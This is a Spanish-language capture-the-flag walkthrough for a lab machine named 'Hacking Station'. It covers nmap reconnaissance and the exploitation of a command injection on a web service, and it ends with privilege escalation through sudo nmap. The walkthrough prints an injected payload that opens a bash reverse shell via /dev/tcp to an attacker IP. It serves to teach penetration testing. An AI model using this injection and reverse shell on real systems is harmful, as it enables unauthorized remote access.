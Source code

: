 ```yaml
---
description: '🔍 Dificultad: Muy Fácil'
---
```


# Hacking Station

🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.56
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1095).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.56 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1096).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo el **puerto 80** perteneciente al **servicio HTTP** está abierto, por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 192.168.1.56
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (1097).png" alt=""><figcaption></figcaption></figure>

Revisamos puerto 80.

<figure><img src="../../.gitbook/assets/image (1098).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Consiste en un Command Injection por lo que nos mandaremos una Reverse Shell.

```bash
hola;bash -c 'bash -i >& /dev/tcp/192.168.1.65/4444 0>&1'
```

Nos ponemos en escucha.

<figure><img src="../../.gitbook/assets/image (1099).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (1100).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/nmap/#sudo" %}

<figure><img src="../../.gitbook/assets/image (1101).png" alt=""><figcaption></figcaption></figure>
